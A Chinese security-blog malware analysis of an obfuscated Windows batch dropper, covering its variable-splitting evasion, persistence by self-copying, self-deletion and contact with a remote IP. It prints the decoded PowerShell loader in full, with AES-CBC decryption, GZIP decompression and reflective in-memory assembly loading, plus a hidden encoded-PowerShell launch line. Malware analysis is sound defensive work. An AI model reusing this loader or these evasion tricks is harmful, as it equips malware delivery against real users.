









# 一次对多重混淆技术的恶意BAT文件简要分析-先知社区

> **来源**: https://xz.aliyun.com/news/17477  
> **文章ID**: 17477

---

# 什么是bat文件

BAT文件（批处理文件）是Windows操作系统中的一种脚本文件，它包含一系列DOS命令，可以自动执行多个命令操作。BAT是"batch"（批处理）的缩写，这类文件的后缀名为.bat

# 静态分析





此次截获的批处理脚本文件(BAT)具备显著的抗杀毒软件检测特性，将文件后缀改为txt打开分析bat代码



这个批处理文件经过高度混淆，主要功能是执行加密的PowerShell恶意代码。以下是逐步分析和还原后的代码：

```
if not DEFINED sumutuyuxevnntyRzKvsumutuyuxevnnty set sumutuyuxevnntyRzKvsumutuyuxevnnty=1 && start "" /min "%~dpnx0" %* && exit
```

确保只有一个实例运行，通过环境变量检测实现单例模式

```
%hfi%@%hfi%e%hfi%c%hfi%h%hfi%o%hfi% => "echo"
%sumutuyuxevnnty%s%sumutuyuxevnnty%e%sumutuyuxevnnty%t => "set"
```

使用变量分割绕过基础检测

```
copy "%sourceFile%" "%userprofile%\dwsm.bat" >nul
```

将自身复制到用户目录下的dwsm.bat，实现持久化



大量经过base64加密后的字符

```
!jpfdj! "payload1=Close();$zwzoi=New-Object System.Security.Cryptography.AesCryptoServiceProvider"
!jpfdj! "payload2=CreateDecryptor([Convert]::FromBase64String('JHVzZXJOYW1l'))"
...（此处省略200+行动态拼接的变量）...

最终触发恶意PowerShell命令
!jpfdj! "finalPayload=powershell -nop -ep bypass -w hidden -enc JAB1AHM..."
```



```
%rim%s%rim%m%rim%q%rim%j => "del"
%dlz%e%dlz%f%dlz%n%dlz%a => "self"
```

最后删除自身，清理痕迹

# 流量分析



运行bat程序时，向45.138.16.211:4000发送了网络请求



解密powershell执行的代码





```
# 主检测流程
$userName = $env:USERNAME;
$rpwap = "C:\Users\$userName\dwm.bat";

if (Test-Path $rpwap) {
    # 检测批处理文件中的注入代码
    
    # 核心解密函数
    function ygvwi($param_var) {
        # AES-CBC解密配置
        $aes_var = [System.Security.Cryptography.Aes]::Create()
        $aes_var.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aes_var.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
        $aes_var.Key = [Convert]::FromBase64String('ozKAhHJS1dkh9XIxZ26zJxxrSxu58yYL8PIPHb6z5gM=')
        $aes_var.IV = [Convert]::FromBase64String('qv7HfqoORsuVik33JVQxrg==')
        $decryptor_var = $aes_var.CreateDecryptor()
        $return_var = $decryptor_var.TransformFinalBlock($param_var, 0, $param_var.Length)
        $decryptor_var.Dispose()
        $aes_var.Dispose()
        $return_var
    }

    function nfkee($param_var) {
        # GZIP解压缩
        $gxqaq = New-Object System.IO.MemoryStream(,$param_var)
        $zwzoi = New-Object System.IO.MemoryStream
        $wntsx = New-Object System.IO.Compression.GZipStream($gxqaq, [IO.Compression.CompressionMode]::Decompress)
        $wntsx.CopyTo($zwzoi)
        $wntsx.Dispose()
        $gxqaq.Dispose()
        $zwzoi.ToArray()
    }

    function umoro($param_var, $param2_var) {
        # 反射加载程序集
        $omhul = [System.Reflection.Assembly]::Load([byte[]]$param_var)
        $auhuq = $omhul.EntryPoint
        $auhuq.Invoke($null, $param2_var)
    }
    
    # 执行流程
    $ezbex = [System.IO.File]::ReadAllText($rpwap).Split([Environment]::NewLine)
    foreach ($asf in $ezbex) {
        if ($asf.StartsWith(':: ')) {
            $wwuab = $asf.Substring(3)
            break
        }
    }
    
    # 分阶段加载
    $oafej = [string[]]$wwuab.Split('\')
    $uuxdd = nfkee (ygvwi ([Convert]::FromBase64String($oafej[0])))
    $wlpsx = nfkee (ygvwi ([Convert]::FromBase64String($oafej[1])))
    
    # 执行恶意负载
    umoro $uuxdd $null       # 第一阶段：环境准备
    umoro $wlpsx (,[string[]] ('%*')) # 第二阶段：主功能执行
}
```

# 总结

这是一个高度混淆的恶意bat脚本，采用变量插值、字符串拼接和多重编码技术逃避检测。核心功能包括动态代码执行、AES加密解密和内存注入攻击，通过Invoke-Expression执行解码后的恶意负载。包含Base64编码的可疑二进制数据，可具有较高的隐蔽性和危害性

```
dwm.bat SHA256: c2b502c8dfa3d6ae57b9414fb537b63aea0de2f0f974225dd8280b2bfe8a8353
```
